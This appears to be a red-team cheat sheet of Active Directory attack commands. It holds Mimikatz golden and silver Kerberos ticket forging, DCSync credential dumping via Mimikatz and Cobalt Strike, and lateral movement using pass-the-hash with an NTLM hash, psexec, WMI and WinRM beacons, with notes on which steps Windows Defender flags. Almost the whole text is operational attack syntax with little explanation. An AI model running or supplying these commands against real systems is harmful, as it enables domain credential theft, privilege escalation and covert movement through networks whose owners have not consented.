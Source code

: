 powershell Invoke-Mimikatz -Command '"kerberos::golden .../ptt"'

powershell Invoke-Mimikatz -Command '"lsadump::dcsync /user:child\administrator"'

# SILVER TICKETS - valid TGS - what makes it valid? --> its encrypted with the NTLM hash of the service (HOST MACHINE) account 
mimikatz kerberos::golden 
/user:administrator 
/domain:child.parent.com 
/sid:S-1-5-21-1874506631-3219952063-538504511
/target:computer_account.child.parent.com 
/service:HOST_OR_WINRM_OR_RPCSS_OR_CIFS_OR_LDAP
/rc4:ntlm_of_computer_account 
/user:Administrator 
/ptt

powershell Invoke-Mimikatz -Command '"kerberos::golden ... /ptt"'

# DCSYNC - Using CobaltStrike
dcsync parent.com parent\Administrator


===============================================
LATERAL MOVEMENT AND PIVOTING
===============================================

# REMOTE CODE EXECUTION - CHECK CREDS ABOVE
-- Windows command line 
-- WMIC commands
	wmic /node:<remotecomputername> PROCESS call create "<command to run>
-- Powershell commands
	pth child.parentdomain.local\Administrator 311b090a887d3fe6578c2afa9264a6dd
	powershell invoke-command -scriptblock {shell command;powershell commandlet} -computername fqdn.child.parent.local


# OPTH - Will flag Windows Defender
pth child.parentdomain.local\Administrator 311b090a887d3fe6578c2afa9264a6dd
psexec IP Beacon
psexec_psh IP Beacon

# OPTH - Will flag Windows Defender
pth child.parentdomain.local\Administrator 311b090a887d3fe6578c2afa9264a6dd
wmi IP Beacon

# OPTH - Will flag Windows Defender
pth child.parentdomain.local\Administrator 311b090a887d3fe6578c2afa9264a6dd
winrm FQDN Beacon
